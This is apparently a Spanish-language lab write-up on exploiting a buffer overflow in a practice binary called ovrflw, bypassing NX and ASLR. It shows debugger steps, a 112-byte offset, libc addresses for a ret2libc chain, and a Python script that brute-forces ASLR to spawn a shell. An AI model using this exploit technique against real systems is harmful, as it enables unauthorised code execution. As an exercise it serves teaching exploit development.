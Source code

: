 # Buffer-OverFlow Bypass de NX y ASLR

[ovrflw.rar](/assets/images/Buffer-Overflow-byp-nx-aslr/ovrflw.rar)

con ghidra leemos el codigo fuente del binario:

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled.png)

Vemos que tiene declarado un buffer de 112 y utiliza una funcion strcpy  que se considera insegura.

Si lo ponemos en practica, lo podemos ver utilizando:

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%201.png)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%202.png)

### Explica paso por paso la metodología que has seguido con el debugger para reproducir la vulnerabilidad existente en el binario ovrflw. Recuerda que este punto debe de tener ASLR activo en el entorno de Linux.

Ejecutamos el binario con gdb-peda:

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%203.png)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%204.png)

Vemos que tiene proteccion NX (No Execution)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%205.png)

Creamos un pattern de 115 y se lo enviamos al binario

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%206.png)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%207.png)

Hemos sobreescrito el EIP, tenemos que sacar el valor del offset

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%208.png)

Vemos que es de 112.

Comprobamos que el ASLR esta activo de la siguiente forma.

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%209.png)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2010.png)

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2011.png)

Ejecutamos p system dos veces para ver que va cambiando.

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2012.png)

Sacamos la direccion de system, exit y de sh.

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2013.png)

```
#direcciones
	#p.system = 0xf7dddcc0 -> \xc0\xdc\xdd\xf7
	#p.exit = 0xf7dd0640 -> \x40\x06\xdd\xf7
	#sh = 0xf7f28b62 -> \x62\x8b\xf2\xf7

#rop = p.system+p.exit+sh
#rop = "\xc0\xdc\xdd\xf7\x40\x06\xdd\xf7\x62\x8b\xf2\xf7"
```

Creamos un one-liner que nos ejecute en un bucle infinito una cadena para ocasionar un choque, y consiga ocasionar una llamada exitosa y nos otorgue una sh

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2014.png)

Podemos crear un exploit para automatizarlo:

```python
#!/usr/bin/python3
from pwn import *
from struct import pack
from subprocess import call

#direcciones
	#p.system = 0xf7dddcc0 -> \xc0\xdc\xdd\xf7
	#p.exit = 0xf7dd0640 -> \x40\x06\xdd\xf7
	#sh = 0xf7f28b62 -> \x62\x8b\xf2\xf7

#rop = p.system+p.exit+sh
#rop = "\xc0\xdc\xdd\xf7\x40\x06\xdd\xf7\x62\x8b\xf2\xf7"

rop = pack("<I", 0xf7dddcc0)
rop += pack("<I", 0xf7dd0640)
rop += pack("<I", 0xf7f28b62)

buffer = b"A"*112
buffer += rop

def main():
	while os.system("echo $0") != "/bin/sh":
		response = call(["./ovrflw", buffer])
	else:
		sys.exit(1)

main()
```

Lo ejecutamos:

![Untitled](/assets/images/Buffer-Overflow-byp-nx-aslr/Untitled%2015.png)
